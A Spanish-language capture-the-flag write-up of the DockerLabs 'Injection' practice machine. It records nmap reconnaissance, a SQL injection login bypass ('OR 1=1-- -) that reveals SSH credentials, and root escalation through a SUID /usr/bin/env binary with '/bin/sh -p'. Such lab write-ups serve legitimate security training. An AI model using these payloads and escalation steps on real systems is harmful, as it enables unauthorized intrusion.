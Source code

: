 ```yaml
---
title: Injection
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-11-29
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-injection/injection_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - sqli
  - suid
  - ssh
  - http
  - tcp
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.051 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.051/0.051/0.051/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ sudo nmap -sCV -p22,80 -oN nmap2 127.17.0.2
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis

Lo único que encuentro en el servicio HTTP abierto es un panel de inicio de sesión.

![](/assets/img/dockerlabs-writeup-injection/injection1_1.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_2.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_3.png)

---
## Vulnerability Exploitation

El título de la máquina da una pista bastante evidente.

Parece que el panel es vulnerable a SQL Injection.

![](/assets/img/dockerlabs-writeup-injection/injection1_4.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_5.png)

Realizando pruebas y mirando los errores en las respuestas del panel, identifico los caracteres especiales necesarios para bypassar el panel de login.

![](/assets/img/dockerlabs-writeup-injection/injection1_7.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_8.png)

Como se puede ver, aplicando los caracteres ```'-- -``` el error 'Syntax error or access violation' ya no aparece.

![](/assets/img/dockerlabs-writeup-injection/injection1_9.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_3.png)

Si completo la query de esta forma:
```sql
'OR 1=1-- -
```
Soy capaz de bypassear la página de inicio de sesión, ya que al agregar ```OR 1=1``` fuerzo la condición de la consulta a ser siempre verdadera (1 siempre es igual a 1), permitiendo el acceso sin necesidad de credenciales válidas.

![](/assets/img/dockerlabs-writeup-injection/injection1_11.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_12.png)

Ahora tengo credenciales para conectarme por SSH, 'dylan:KJSDFG789FGSDF78'.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ ssh dylan@127.17.0.2
dylan@127.17.0.2's password: KJSDFG789FGSDF78

dylan@kali:~$ whoami
dylan
```

---
## Privilege Escalation

```terminal
dylan@kali:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```
```terminal
dylan@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

Para identificar posibles binarios SUID en el sistema, utilicé el siguiente comando:

```terminal
dylan@kali:~$ find / -perm -4000 2>/dev/null
```

![](/assets/img/dockerlabs-writeup-injection/injection2_1.png)


En la lista de resultados, descubrí que el binario /usr/bin/env estaba presente. Al consultarlo en GTFOBins, confirmé que este binario puede ser explotado para obtener una shell con privilegios elevados.

<https://gtfobins.github.io/gtfobins/env/>

Al ejecutar '/bin/sh' con la opción '-p', es posible iniciar una shell con privilegios elevados, ya que la opción '-p' conserva los permisos del binario SUID.

Esta técnica me permitió acceder a una shell con privilegios de root.

```terminal
dylan@kali:~$ /usr/bin/env /bin/sh -p
# id
uid=1000(dylan) gid=1000(dylan) euid=0(root) groups=1000(dylan)
```
